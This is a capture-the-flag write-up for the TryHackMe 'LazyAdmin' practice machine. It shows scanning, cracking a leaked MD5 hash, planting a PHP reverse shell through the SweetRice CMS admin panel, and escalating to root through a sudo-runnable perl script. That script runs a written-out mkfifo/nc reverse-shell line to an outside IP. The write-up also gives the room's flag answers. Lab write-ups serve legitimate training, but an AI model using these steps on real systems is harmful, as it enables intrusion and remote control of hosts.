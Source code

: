 ### Easy linux machine to practice your skills
Room: https://tryhackme.com/room/lazyadmin
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**gobuster** dir -u http:/xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/content              (Status: 301) [Size: 314] [--> http://xx.xx.xx.xxx/content/]
```

On the **/content** directory seems to be installed Sweet Rice CMS.   

**gobuster** dir -u http://xx.xx.xx.xxx/content --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/images               (Status: 301) [Size: 321] [--> http://xx.xx.xx.xxx/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://xx.xx.xx.xxx/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://xx.xx.xx.xxx/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://xx.xx.xx.xxx/content/attachment/]
```

By going to http://xx.xx.xx.xxx/content/inc, we can find a directory called **mysql_backup** that happens to have a .sql file.  
Once we download and read that file, we have the following credentials  
> manager: 42f749ade7f9e195bf475f37a44cafcb

The hash is a MD5 and reveals the **Password123** password.  
With that, we're able to login on /content/as page.  

From here, we can edit pretty much any php page's code with a PHP reverse shell.  
I chose to create a 'test' ad page with a PHP reverse shell as the source code. The page was created at /content/ads/test.php  

On the listener terminal, we got a connection.  
```
listening on [any] 5555 ...
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xxx] 33004
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:06:32 up 29 min,  0 users,  load average: 0.00, 0.02, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

To spawn a bash shell, we can use ```python3 -c 'import pty; pty.spawn("/bin/bash")'```

**The first flag, located on /home/itguy/user.txt, is THM{63e5bce9271952aad1113b6f1ac28a07}** **[1]**.  

From that directory we get the mysql credentials as well.  
```
cat mysql_login.txt
rice:randompass
```

Checking **sudo -l**, we see that we can run the **backup.pl** script from /home/itguy directory.  

**cat backup.pl**
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

**cat /etc/copy.sh**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It seems that it already has a reverse shell in this script. I just changed the 192... IP with my own.  

**sudo** /usr/bin/perl /home/itguy/backup.pl
On our second listener, we got a second shell. This time, under root privileges.  

**Second and final flag is at /root/root.txt and is THM{6637f41d0177b6f37cb20d775124699f}** **[2]**.  
